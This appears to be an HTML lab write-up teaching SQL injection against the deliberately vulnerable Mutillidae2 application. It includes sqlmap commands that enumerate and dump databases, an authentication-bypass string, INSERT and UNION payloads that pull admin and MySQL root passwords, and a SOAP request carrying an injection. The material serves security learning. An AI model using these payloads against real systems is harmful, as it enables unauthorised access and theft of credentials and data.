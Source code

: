 <h1>SQL Injection</h1>
<p> SQL injection is when the User Input Data injects something that uses the context interpretation of that entered data to the attacker's advantage. It can do anything from leaking useful data like password hashes to destroying the entire database or spawn an OS shell to the attacker, if unchecked. It still remains as one of the most potent form of injections that a site can be vulnerable to as it attacks a backend datastore.
</p>
<h2> Identification</h2>
<p> Identifying the SQL injection points are the first step, every point must be checked and marked that one encounters during reconnaisance or crawling, sitemap generation etc. Key areas could be.
	<ol>
		<li>Form submissions, registrations, change password etc</li>
		<li>GET URL's typically pagination requests</li>
		<li>Ajax requests behind the scenes that periodically submit user data</li>
		<li>Feedback or comment forms in shopping sites</li>
		<li>User-Agent might be getting logged somewhere in DB, try to inject that as well</li>
	</ol>
<h2>Execution</h2>
<p>
After identifying a suitable entry point, begin your attack. It goes without saying that ensure you have full permission to perform the attack, and the client has backup of the datastore or any crucial data, as the attack could have unforseen consequences. Here we are going to practice on CTF Mutillidae2 so this can be kept aside for now.
</p>
<p>You can attack manually and when some info is revealed ,you may proceed for tools or other complex types of attack. There is no checklist , hacking is all about creativity and above all patience.
So keep digging away until you're sure that the injection point is protected.
</p>

<ol>
	<li>Manually submit values via browser interface</li>
	<ul>
		<li>Will be prevented by Client side scripting(Stupid Level 2)</li>
		<li>Not hackery enough, doesn't give you the feel good</li>
	</ul>
	<li>
		Use a good'ol script that behaves like a browser. Attached the most simple script possible in pytnon
		using Mechanize. (sqlinjection.py) for the User-Info challenge.
	</li>
	<li>
		Use the grand daddy SQLMap tool. More on how to use sqlmap can be found by reading the man page.
		SQLMap ships by default with Kali Linux.
		<ul>
			<li>
				<p>Start by locating sqlmap if it is already installed<p>
				<pre>
locate sqlmap.py
				</pre>
				Traverse to the directory, which will be "/usr/share/sqlmap" , if it is installed
			</li>
			<li>
				First step is to find out, the action URL i.e where the data is being submitted. There are many ways to do this, but I prefer doing it via the proxy of WebExploit tool BurpSuite, by PortSwigger.
				The request URL and method type must be indentified. In this case, the GET request reflects in the URL and can be copied from there. <br> In Burp Suite this can be done using the inbuilt proxy and copying th details from there. <br> We now use the URL with SQLMap as follows.<br> The values of the username and password do not matter,those keys will be used by SQLMap for injection.
				The 
				<pre>
./sqlmap.py -u "http://192.168.16.1:9999/mutillidae2/index.php?page=user-info.php&username=alibaba&password=dotcom&user-info-php-submit-button=View+Account+Details" --dbs  
				</pre>
				</li>
				<li>
					The above command will display the databases that could be accessed, use "<b>-D &ltDatabaseName&gt</b>" , and <b>--tables</b>to see tables for the database.
					<pre>
./sqlmap.py -u "http://192.168.16.1:9999/mutillidae2/index.php?page=user-info.php&username=alibaba&password=dotcom&user-info-php-submit-button=View+Account+Details" --dbs -D nowasp --tables
					</pre>
					</li>
					<li>
						Once ,tables are displayed,a table name can be selected using "<b>-T &lttableName&gt</b>" and display columns using "<b>--columns</b>"
						<pre>
./sqlmap.py -u "http://192.168.16.1:9999/mutillidae2/index.php?page=user-info.php&username=alibaba&password=password&user-info-php-submit-button=View+Account+Details" --dbs -D nowasp -T accounts --columns
						</pre>
</li>
<li>
	The data from the selected columns can be done by specifying the value "<b>-C &ltcolumn1,column2&gt</b>", and and dump the data using the option "<b>--dump</b>".
</li>
</li>
</ol>
<h2> Different Attack Purpose</h2>
<h3> Extracting Data </h3>
<p>Aim is to extract data via SQL injection, typically attacking inputs where there is a probable of SQL SELECT statement in the background. Attacking Mutillidae2. The demo shown under Execution covers this and also the sqlinjection.py which cracks the injection. At Level 5, Mutillidae2 should be unbreakable, so any hacks found should be reported as bug to the developer.</p>

<h3>1.Bypasing Authentication</h3>

<p>Typical statements where, authentication can be bypassed as an example of SQL injection</p>
A mechanism to bypass authentication via injecting login. Attack via simple command, and try to guess admin username. You can attack via SQLMap, but for learning sake we are gonna manually pass the parameters. On level 2, this method can be used via proxy tool of your choice.


So bypassing the login in Mutillidae2 is pretty easy-peezy lemon squeazy. You just inject the good'ol string <b><i>admin' or 1=1#</i></b>.

<h3>2.Insert based Injection </h3>

Upon identifying an Insert based injection, it is important to know that he Insert statement is the best place to perform what is called a second order SQL Injection if the condition is right.
We can always use the Insert statement to bypass the entries in the database which should not be possible in otherwise normal case.  In Mutillidae2 , the Insert based injection causes the query to break, hence we cannot work with Second order SQL Injection.
Insert SQL statement has this structure. Our injection could be any one or more of the values.
<pre>INSERT INTO blahTABLE(col1,col2,col3) VALUES(val1,val1,val2)</pre>
<p>The values must match the number of columns and also the datatype. We may not always know the number of paramaters before hand, or what type is required by the database.</p><p>Fortunately this shortcoming can be easily bypassed. 
The trick is to start by hit and trial method for the number of parameters, and the type check can be bypassed by using an Integer as it is typecasted into a string by most databases.
Attempts could look like following to guess the number of parameters until the attack is successfull.
<pre>
xxx') -- 
xxx',1) -- 
xxx',1,1) -- 
</pre>
and so on , until you guess the right number of columns that exist. A similar kind of trick can be used with UNION statements to guess the number of columns and their datatypes.

The mutillidae2 solution is to forge a date into the blog, which should be non existent.
<ol>
	<li>
		<b>Add to your blog page</b> can be SQL injected to change the date of the blog, the Insert statement can be easily injected by using this query.  
		<pre>I have some aladeen news','2019-09-09 00:00:00')#</pre>
		<b>Note: I have been trying for a Second order injection, but have not been able to do it</b>
		<p>The user is taken from the cookie and PHPSESSID and unforgeable, so we are left only with the option of the date which only accepts a date and the string of the blog</p>.
		<p>I have so far managed to pull off an error based injection. I am still looking for a way to post the results of the injected SELECT query into the blog itself but haven't been successful
		Adding the below into the blog, we get an error message notifying us of the password of the user admin, and that it does not qualify for a date.</p>
		<pre>
hacker',(SELECT password FROM accounts WHERE username LIKE '%admin' ))#
		</pre>
	</li>
	<li>
		<b>Register yourself page</b>
		You can register by using data from other columns as one of the fields. We cannot however read from <b>the same table</b> we are INSERTING into. Hence unfortunately we cannot read from the accounts table (containing username and password). We can however get crucial column Name by using these. We are targeting the metainfo stored in <b>information_schema </b>. In Oracle we would target all_tabs_columns. 
		Put the following in the username field of registration page. The field we are injected into is the signature field. Since we cannot read from accounts , we can definitely try to read from the vulnerable <b><i>mysql.user</i></b>. The first two queries are when you want to scan the tables for columns. Ofcourse, this is one of many ways of SQL injecting this page
		<b>Signature Field</b>
		<pre>
hacker','1',(SELECT column_name from information_schema.columns where table_name='accounts' and column_name LIKE '%user%' LIMIT 1))#
hacker','1',(SELECT column_name from information_schema.columns where table_name='accounts' and column_name LIKE '%pass%' LIMIT 1))#
hacker','1',(select password from mysql.user where user=’root’ LIMIT 0,1)#
		</pre>
	</li>
	<li>
		<b> Add your Blogs</b>
		<p>
		Lot of other vulnerabilites in this page, related to injection such as Javascript and cookie stealing. The SQL vulnerability however can be exploited by using the view all blogs page.
		You can forge a date, but those are not interesting exploits. 
		</p>
		<p>
			My attempt was to INSERT a value by using select statement but could not escape quotes in doing so. I will continue my attempts and see how to bypass this. 
			I tried to add the following...
			<pre>
a'+(SELECT password FROM accounts WHERE username LIKE '%admin' )+'b
			</pre>
			This was done as I have no control over the user, and the next field is date, so I will have to limit my injection to this column. I am sure , I am limited here only by my knowlege of SQL.
		</p>
	</li>
	<li>
		<b>View Blogs</b>
		Aside from the XSS injection, we could do an SQL injection attack. Intercept using Burpsuite, and modify the username field (selected from the dropdown list of the browser interface) to this.
		<pre>
=hola' UNION SELECT NULL,password, username,NULL FROM accounts #
	    </pre>
	</li>
	<li>
	In principle the attacks have no difference, as the motive is the same. Hence we just change the inout and let the SOAP service inject the data into the backend SQL service instead of the traditional web forms
	<pre>
POST /mutillidae/webservices/soap/ws-user-account.php HTTP/1.1 
Accept-Encoding: gzip,deflate 
Content-Type: text/xml;charset=UTF-8 
Content-Length: 438
Host: localhost 
Connection: Keep-Alive 
User-Agent: Apache-HttpClient/4.1.1 (java 1.5) 
<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:urn="urn:ws-user-account"> 

<soapenv:Header/> 
<soapenv:Body> 
<urn:getUser soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"> 
<username xsi:type="xsd:string">a'or 1=1#</username> 
</urn:getUser> 
</soapenv:Body> 
</soapenv:Envelope>
</pre>
	</li>
</ol>
</p>
